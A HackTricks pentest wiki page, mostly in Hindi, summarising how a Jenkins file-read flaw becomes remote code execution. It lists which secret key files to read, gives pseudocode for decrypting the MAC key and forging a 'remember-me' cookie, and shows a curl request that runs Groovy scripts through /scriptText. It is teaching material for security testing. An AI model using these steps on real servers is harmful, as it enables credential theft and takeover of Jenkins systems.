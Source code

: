 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

इस ब्लॉग पोस्ट में एक शानदार तरीका है कि कैसे Jenkins में एक स्थानीय फ़ाइल समावेशन (Local File Inclusion) की कमजोरी को RCE में परिवर्तित किया जा सकता है: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

यह एक AI द्वारा बनाई गई संक्षेप है उस भाग की जिसमें एक मनमाना कुकी का निर्माण RCE प्राप्त करने के लिए किया जाता है, जब तक कि मेरे पास अपने स्वयं के संक्षेप को बनाने का समय नहीं है:

### हमले की पूर्वापेक्षाएँ

* **विशेषता आवश्यकता:** "Remember me" सक्षम होना चाहिए (डिफ़ॉल्ट सेटिंग)।
* **एक्सेस स्तर:** हमलावर को समग्र/पढ़ने की अनुमति की आवश्यकता है।
* **गुप्त एक्सेस:** प्रमुख फ़ाइलों से बाइनरी और पाठ्य सामग्री पढ़ने की क्षमता।

### विस्तृत शोषण प्रक्रिया

#### चरण 1: डेटा संग्रहण

**उपयोगकर्ता जानकारी पुनर्प्राप्ति**

* प्रत्येक उपयोगकर्ता के लिए `$JENKINS_HOME/users/*.xml` से उपयोगकर्ता कॉन्फ़िगरेशन और रहस्यों तक पहुँचें:
* **उपयोगकर्ता नाम**
* **उपयोगकर्ता बीज**
* **टाइमस्टैम्प**
* **पासवर्ड हैश**

**गुप्त कुंजी निष्कर्षण**

* कुकी पर हस्ताक्षर करने के लिए उपयोग की जाने वाली क्रिप्टोग्राफिक कुंजियों को निकालें:
* **गुप्त कुंजी:** `$JENKINS_HOME/secret.key`
* **मास्टर कुंजी:** `$JENKINS_HOME/secrets/master.key`
* **MAC कुंजी फ़ाइल:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### चरण 2: कुकी निर्माण

**टोकन तैयारी**

*   **टोकन समाप्ति समय की गणना करें:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // वर्तमान समय में एक घंटा जोड़ें
```
{% endcode %}
*   **टोकन के लिए डेटा को संयोजित करें:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC कुंजी डिक्रिप्शन**

*   **MAC कुंजी फ़ाइल को डिक्रिप्ट करें:**

```javascript
key = toAes128Key(masterKey)  // मास्टर कुंजी को AES128 कुंजी प्रारूप में परिवर्तित करें
decrypted = AES.decrypt(macFile, key)  // .mac फ़ाइल को डिक्रिप्ट करें
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**हस्ताक्षर गणना**

*   **HMAC SHA256 की गणना करें:**

```javascript
mac = HmacSHA256(token, macKey)  // टोकन और MAC कुंजी का उपयोग करके HMAC की गणना करें
tokenSignature = bytesToHexString(mac)  // MAC को हेक्साडेसिमल स्ट्रिंग में परिवर्तित करें
```

**कुकी एन्कोडिंग**

*   **अंतिम कुकी उत्पन्न करें:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // कुकी डेटा को Base64 एन्कोड करें
```
{% endcode %}

#### चरण 3: कोड निष्पादन

**सत्र प्रमाणीकरण**

* **CSRF और सत्र टोकन प्राप्त करें:**
* `/crumbIssuer/api/json` पर एक अनुरोध करें ताकि `Jenkins-Crumb` प्राप्त किया जा सके।
* प्रतिक्रिया से `JSESSIONID` को कैप्चर करें, जिसका उपयोग याद रखने वाली कुकी के साथ किया जाएगा।

**कमांड निष्पादन अनुरोध**

*   **Groovy स्क्रिप्ट के साथ POST अनुरोध भेजें:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy स्क्रिप्ट का उपयोग सिस्टम-स्तरीय कमांड या Jenkins वातावरण के भीतर अन्य संचालन को निष्पादित करने के लिए किया जा सकता है।

उदाहरण curl कमांड यह प्रदर्शित करता है कि कैसे आवश्यक हेडर और कुकी के साथ Jenkins को अनुरोध भेजा जाए ताकि मनमाना कोड सुरक्षित रूप से निष्पादित किया जा सके।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
